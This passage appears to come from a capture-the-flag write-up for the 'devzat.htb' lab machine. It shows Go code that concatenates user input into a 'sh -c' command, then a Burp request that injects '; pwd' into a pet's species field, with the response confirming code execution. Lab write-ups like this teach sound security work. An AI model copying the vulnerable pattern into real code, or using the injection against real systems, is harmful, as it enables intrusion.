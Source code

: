 ```bash
+               {Name: "Bruno", Species: "bluewhale", Characteristics: loadCharacter("bluewhale")},
+       }
+)
+
+func loadCharacter(species string) string {
+       cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
+       stdoutStderr, err := cmd.CombinedOutput()
+       if err != nil {
+               return err.Error()
+       }
+       return string(stdoutStderr)
+}
+
+func getPets(w http.ResponseWriter, r *http.Request) {
+       json.NewEncoder(w).Encode(Pets)
+}
+
+func addPet(w http.ResponseWriter, r *http.Request) {

```
Ok great, lets explain whats happening here. The page is intended to show the database of animals and print whatever you add. BUT, it has the vulnerable code in the characteristics field. Becuase it odes the following: `cmd := exec.Command("sh", "-c", "cat characteristics/"+species)`. A modified version of this could be `cmd := exec.Command("sh", "-c", "cat dog; pwd;/"+species)` This would just simply print the characteristics of the dog file, then print the working directory and then not know what to do with the +species at the end.
So my burprepeater request looks like this
```html
POST /api/pet HTTP/1.1
Host: pets.devzat.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://pets.devzat.htb/
Content-Type: text/plain;charset=UTF-8
Origin: http://pets.devzat.htb
Content-Length: 16
Connection: close
{"name":"hello",
"species":"bluewhale; pwd"
}
```
And the respons would simply output:
```bash
{"name":"hello","species":"bluewhale","characteristics":"The mouth of the blue whale contains a row of plates that are fringed with 'baleen', which are similar to bristles. Also the tongue of the blue whale is as big as an elephant./home/patrick/pets"}]

```
![cat](https://i.imgur.com/sJPxw2D.png)
We have code execution!
